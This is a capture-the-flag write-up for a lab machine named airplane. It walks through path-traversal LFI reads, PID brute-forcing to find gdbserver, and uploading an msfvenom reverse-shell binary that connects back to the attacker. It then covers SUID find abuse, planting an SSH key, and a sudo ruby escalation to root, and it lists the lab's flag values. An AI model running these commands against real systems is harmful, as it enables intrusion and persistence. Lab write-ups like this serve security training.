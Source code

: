 ```yaml
---
sticker: emoji//2708-fe0f
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 6048 | X11?    |
| 8000 | HTTP    |



# RECONNAISSANCE
---

We need to add `airplane.thm` to `/etc/hosts`:

```bash
echo '10.10.62.55 airplane.thm' | sudo tee -a /etc/hosts
```

Once we enter the website, we can notice the following:

![](Pasted%20image%2020250422135925.png)

The url seems suspicious, it seems as it could be vulnerable to LFI, let's try reading `/etc/passwd`:


![](Pasted%20image%2020250422140134.png)

As we can see, if we use `path traversal`, we can read `/etc/passwd`, since this server is vulnerable to `LFI`, we can test other stuff, for example, let's try reading
`proc/self/environ`:

```
../../../../../proc/self/environ
```

![](Pasted%20image%2020250422141057.png)

We get this:

```
LANG=en_US.UTF-8
LC_ADDRESS=tr_TR.UTF-8
LC_IDENTIFICATION=tr_TR.UTF-8
LC_MEASUREMENT=tr_TR.UTF-8
LC_MONETARY=tr_TR.UTF-8
LC_NAME=tr_TR.UTF-8
LC_NUMERIC=tr_TR.UTF-8
LC_PAPER=tr_TR.UTF-8
LC_TELEPHONE=tr_TR.UTF-8
LC_TIME=tr_TR.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
HOME=/home/hudson
LOGNAME=hudson
USER=hudson
SHELL=/bin/bash
INVOCATION_ID=5da2e4a284be419f834a40bee5eeac5f
JOURNAL_STREAM=9:18702
```

Based on that, we can find the `app.py` on `/home/hudson/app/app.py`, let's try reading it:

```
../../../../..//home/hudson/app/app.py
```


![](Pasted%20image%2020250422141515.png)

Not much, seems like this only tells us the way it's vulnerable to LFI, but we can keep on digging, for example, we can try reading:

```
proc/self/cmdline
```

![](Pasted%20image%2020250422141742.png)

It works, based on the scan, we notice we got something else running on port `6048`, we can use the same technique to visualize what may be running on it, we need to change it to this format:

```
/proc/pid/cmdline
```

`/proc/pid/cmdline` is similar to `/proc/self/cmdline`, but instead of showing the command-line arguments of the **current process** (`self`), it reveals the command-line details of **any running process** on the system, identified by its Process ID (PID). This can be extremely useful for privilege escalation or lateral movement in a CTF or penetration testing scenario.

We need to perform brute force in order to find the different `PIDS`, we can use `ffuf` or in this case, I will use `caido` to perform the brute force, let's start by creating a file with PIDS:

```
seq 1000 > id.txt
```

Now, we can use `caido`'s automate functionality:


![](Pasted%20image%2020250422150920.png)

![](Pasted%20image%2020250422151532.png)

Once the scan is finished, we can filter in the following way:

```
resp.raw.ncont:"Page" AND resp.raw.cont:"gdb"
```

We can see the following:

![](Pasted%20image%2020250422151516.png)

Seems like this is running `gdbserver`, let's begin exploitation.



# EXPLOITATION
---

We can use the following information:

**HackTricks**: https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-remote-gdbserver.html#upload-and-execute


We can follow this PoC to get a shell:

```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```

Nice, let's do it:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf
gdb binary.elf
```

![](Pasted%20image%2020250422151922.png)

We get prompted with this, we can now proceed:

```BASH
target extended-remote 10.10.251.121:6048
remote put binary.elf /home/hudson/binary.elf
set remote exec-file /home/hudson/binary.elf
nc -lvnp 4444 # Outside of the gdb prompt
run
```

If we do everything correctly, we get the connection on our listener:

![](Pasted%20image%2020250422152429.png)

Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted%20image%2020250422152543.png)

Let's use `linpeas` to check any PE vector:

![](Pasted%20image%2020250422153011.png)

There we go, we find an interesting `SUID` binary, let's search `GTFOBINS`:

![](Pasted%20image%2020250422153104.png)

So, we need to do:

```
/usr/bin/find . -exec /bin/bash -p \; -quit
```

![](Pasted%20image%2020250422153149.png)

We escalated to `carlos`, to make the experience more comfortable, we can create a ssh-key and put it in `authorized_keys`:

```
ssh-keygen -t rsa
```

Now, copy the contents:

```
echo "Contents of your key" >> /home/carlos/.ssh/authorized_keys
```

Once we do it, we can go into ssh using:

```
ssh carlos@airplane.thm -i airplane_rsa
```

![](Pasted%20image%2020250422153822.png)

Nice, let's look around again, for example, let's check if we got `sudo` privileges:

```
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

Let's look up `GTFOBINS`:

![](Pasted%20image%2020250422153927.png)

So, in order to get root shell, we can do:

```bash
echo 'exec "/bin/bash"' >> /tmp/privesc.rb
sudo /usr/bin/ruby /root/../tmp/privesc.rb
```

![](Pasted%20image%2020250422154046.png)

There we go, we can finally read both flags and finish the CTF:

```
root@airplane:/home/carlos# cat user.txt
eebfca2ca5a2b8a56c46c781aeea7562
```

```
root@airplane:/home/carlos# cat /root/root.txt
190dcbeb688ce5fe029f26a1e5fce002
```

![](Pasted%20image%2020250422154148.png)

